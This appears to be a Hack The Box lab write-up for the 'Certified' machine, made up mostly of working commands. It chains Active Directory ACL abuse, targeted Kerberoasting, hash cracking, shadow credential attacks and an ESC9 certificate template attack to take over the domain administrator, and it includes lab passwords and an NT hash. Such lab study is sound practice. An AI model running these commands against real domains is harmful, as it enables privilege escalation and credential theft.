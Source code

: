 # Judith *WriteOwner* on `Management Group`
```bash
# Grant full ownership to Judith
impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41

# Grant full control to Judith
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB'  'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41

# Add user Judith to Management Group
net rpc group addmem "Management" 'judith.mader' -U 'certified.htb'/'judith.mader'%'judith09' -S 10.10.11.41

```

# Management Group ***GenericWrite*** `management_svc`
## Targeted Kerberoast
judith is now a part of `management group`
```bash
# GenericWrite using targetedKerberoast.py
python3 /opt/targetedKerberoast/targetedKerberoast.py -d certified.htb -u 'judith.mader' -p 'judith09' -v

```
*got `management_svc` hash*
```powershell
.\hashcat.exe -m 13100 ..\hashes\HackTheBox\certified_management_svc.txt ..\rockyou.txt
```
## ✅method 2 - Shadow Credential Attack w/ `pywhisker.py` and `certipy-ad`
```bash
python3 /opt/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --filename 'management_svc'

certipy-ad cert -pfx management_svc.pfx -password 'raXIjyGKB1tsZlVrjkeB' -export -out 'mgmt_svc_dec.pfx'

certipy-ad auth -pfx mgmt_svc_dec.pfx -username 'management_svc' -domain 'certified.htb' -dc-ip 10.10.11.41
```
## ✅ method 3 - Shadow Credential Attack w/ `certipy-ad`
```bash
certipy-ad shadow auto -username 'judith.mader@certified.htb' -p 'judith09' -account 'management_svc'
```


# management_svc ***GenericAll*** ca_operator

```bash
# change password on evil-winRM
Evil-WinRM> net user ca_operator Password123
```


# Exploit ESC9
`management_svc` has ***GenericWrite*** (actually GenericAll) over `ca_operator`
`john` has ***GenericWrite*** over `jane`
```bash
# change the userPrincipalName of ca_operator to be Administrator
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'administrator'

# request the certificate as ca_operator
certipy-ad req -username 'ca_operator@certified.htb' -password 'Password123' -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'

# change back the userPrincipalName of Jane to be something else, like her original userPrincipalName Jane@corp.local
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'ca_operator@certified.htb'

# try to authenticate with the certificate, we will receive the NT hash of the Administrator@corp.local user
certipy-ad auth -pfx administrator.pfx -domain 'certified.htb'

```